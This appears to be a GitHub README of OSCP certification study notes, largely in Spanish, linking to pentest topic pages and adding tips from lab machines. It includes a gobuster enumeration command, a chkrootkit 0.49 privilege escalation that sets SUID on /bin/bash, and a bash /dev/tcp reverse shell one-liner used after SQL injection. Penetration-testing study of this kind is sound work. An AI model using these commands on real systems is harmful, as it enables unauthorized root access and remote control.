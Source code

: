 # OSCP preparation

## List
- [**Windows Active Directory**](./winad.md)
- [**Shell Management**](./shellMGT.md)
- [**General enumeration**](./enum.md)
- [**Engagement Structure**](https://academy.hackthebox.com/module/39/section/384)
- [**File transfers**](./fileTransfer.md)
- [**Metasploit tricks**](./msf.md)
- [**Pivoting**](./pivoting.md)
- [**Cross-Site Scripting**](./xss.md)
- [**Local File Inclusion & Path Traversal](./LFI.md)
- [**Reporting**](./reporting.md)


## Extras


### En una maquina que pwnee que tenía la vuln shellshock, fue clave la enumeración para poder explotar la misma
```
❯ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 400 -x cgi,php,sh --add-slash
```

#### el -x sh me dió la enumeración correcta

Sí encuentro el puerto 53 es conveniente seguir la siguiente guía de enumeración
https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

### Vulnerabilidad en chkrootkit versión 0.49. Para evitar usar metasploit, sirve chequear:
[https://www.exploit-db.com/exploits/33899](https://www.exploit-db.com/exploits/33899)

```
cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
whoami
```

### Problemas para reverse shell dentro de sqli

Hay veces que cuando puedo obtener RCE mediante una sqli porque tengo acceso de escritura con el user de la db que maneja la aplicación web no siempre me quiere ejecutar bien una revshell, pero con esto sí:

```
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

es el único que me vino funcionando en 2 maquinas de SQLI